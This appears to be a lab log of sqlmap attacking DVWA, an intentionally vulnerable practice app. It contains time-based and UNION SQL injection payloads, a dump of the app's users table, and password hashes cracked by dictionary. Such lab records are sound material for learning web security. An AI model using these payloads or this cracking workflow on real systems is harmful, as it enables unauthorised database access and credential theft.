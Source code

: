 ```txt
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' AND (SELECT 9449 FROM (SELECT(SLEEP(5)))EHKh)-- hqAA&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' UNION ALL SELECT CONCAT(0x7176707671,0x7564654c4b4772796379614c7763464641754e7352476444795249595949734d6d7a4f77686c7954,0x716b707871),NULL#&Submit=Submit
---
[13:48:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:48:52] [INFO] fetching entries of column(s) '`user`,password' for table 'users' in database 'dvwa'
[13:48:52] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[13:48:52] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[13:48:52] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[13:48:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:48:52] [INFO] starting 4 processes 
[13:48:56] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                                                                                                      
[13:48:57] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                                                                                                     
[13:49:01] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'                                                                                                     
[13:49:02] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                                                                                                    
Database: dvwa                                                                                                                                                                               
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```
